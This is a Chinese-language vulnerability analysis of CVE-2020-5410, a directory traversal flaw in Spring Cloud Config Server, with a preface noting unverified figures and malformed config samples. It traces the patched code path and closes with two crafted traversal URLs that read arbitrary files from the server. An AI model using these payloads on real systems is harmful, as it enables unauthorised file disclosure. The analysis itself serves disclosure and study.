





## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：2.2&lt;2.2.3、2.1&lt;2.1.9及旧版本；native配置明确

代码与实验材料：PathUtils与EnvironmentController检测、label/name两变体和%23去后缀解释；无官方commit/运行版本锁

来源证据范围：无原研究URL，源码摘录和截图较多

- **来源与引用处置（1）**：多图错误引用5405目录；依据：5410补丁、getLocations等图使用CVE-2020-5405资源，需视检核图，不能只看链接存在。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

- **适用与权限边界（2）**：文件能力受配置解析器约束；依据：通过配置loader读取结果不必等于任意二进制原样下载，需明确返回格式/可读权限。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **代码与转录边界（3）**：示例配置和路径需恢复；依据：YAML缩进异常、资源残串、没有完整实验/修复来源。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2020-5410）Spring Cloud Config 目录穿越漏洞
=================================================

一、漏洞简介
------------

Spring Cloud
Config，2.2.3之前的2.2.x版本，2.1.9之前的2.1.x版本以及较旧的不受支持的版本允许应用程序通过spring-cloud-config-server模块提供任意配置文件。恶意用户或攻击者可以使用特制URL发送请求，这可能导致目录遍历攻击。

二、漏洞影响
------------

Spring Cloud Config，2.2.3之前的2.2.x版本，2.1.9之前的2.1.x版本

三、复现过程
------------

### 漏洞分析

这次补丁主要是两个部分,第一个部分是将对路径的检测方法单独的封装了出来,封装到了PathUtils类中,并且做了部分的修改,其中最主要的是检测了`#`,至于是为什么,后面来说。SpringCloudConfig目录穿越漏洞/media/rId25.png)

第二部分,也就是漏洞的触发入口，在environment/EnvironmentController.java中,增加了对name、label字段的检测SpringCloudConfig目录穿越漏洞/media/rId26.png)通过补丁我们可以大概知道漏洞应该是出在EnvironmentController,但是具体怎么触发并不知道,所以我们需要跟一遍正常逻辑看一下处理流程。既然是目录穿越漏洞,我们先通过环境变量设置本地读取

    profiles:
        active: native
      cloud:
        config:
          server:
            native:
              search-locations:
                - file:/test/config-repo-master

然后使用正确的请求来动态跟踪调用堆栈`http://www.0-sec.org:8889/111/222/333`,将断点打在入口处,然后往下跟SpringCloudConfig目录穿越漏洞/media/rId27.png)

在跟到`environment/NativeEnvironmentRepository.java`的时候发现参数进行了拼接,SpringCloudConfig目录穿越漏洞/media/rId28.png)重新跟进getArgs看一下

    private String[] getArgs(String application, String profile, String label) {
            List<String> list = new ArrayList<String>();
            String config = application;
            if (!config.startsWith("application")) {
                config = "application," + config;
            }
            list.add("--spring.config.name=" + config);
            list.add("--spring.cloud.bootstrap.enabled=false");
            list.add("--encrypt.failOnError=" + this.failOnError);
            list.add("--spring.config.location=" + StringUtils.arrayToCommaDelimitedString(
                    getLocations(application, profile, label).getLocations()));
            return list.toArray(new String[0]);
        }

主要在getLocations中对路径进行了下拼接,声称了一个将env中的uri拼接了label,生成新的location,那么这个点就是我们目录穿越的关键,继续往下跟,在`environment/NativeEnvironmentRepository.java`中会将args传入spring
boot的`ConfigurableApplicationContext context = builder.run(args)`,后面会使用loader.load函数加载资源,在加载资源的时候会遍历locations拼接name来获取资源,首先来判断是否存在文件,如果文件存在,则去使用url.openConnection来获取资源,通过分析我们知道label和name是我们可控的传入,

    url = env-uri+label+name+extension

因为是借助的url.openConnection,结合补丁增加了`#`限制,我们可以清楚的知道通过在name中以`#`结尾,使extension成为锚点,也就绕过了后缀的限制。在构造poc之前其实还有一个问题，就是这里我们知道一开始是没有对路径进行检测的,那么我们是否可以直接使用`../../`来穿越呢?答案是否,因为如果我们想要传入后端处理,必须二次url编码,但是二次编码后,首先经过的是判断文件是否存在,如果存在才调用url.openConnection来处理,经过一次解码后,显然该路径文件是不存在的。

SpringCloudConfig目录穿越漏洞/media/rId29.png)

这里就有了跟CVE-2020-5405一样的操作,将`(_)`替换成了`/`,处理方法在

    public static String normalize(String s) {
            if (s != null && s.contains(SLASH_PLACEHOLDER)) {
                // "(_)" is uncommon in a git repo name, but "/" cannot be matched
                // by Spring MVC
                return s.replace(SLASH_PLACEHOLDER, "/");
            }
            return s;
        }

### poc

    http://www.0-sec.org:8889/flag.txt%23/222/..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29tmp%28_%29

SpringCloudConfig目录穿越漏洞/media/rId31.png)

构造完这个poc会想到,既然是label+name来拼接的,我们是否可以不用管label,目录穿越的方法在name处构造呢?答案是可以的,poc如下

    http://www.0-sec.org:8889/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Ftmp%252Fflag.txt%23/222/11

SpringCloudConfig目录穿越漏洞/media/rId32.png)
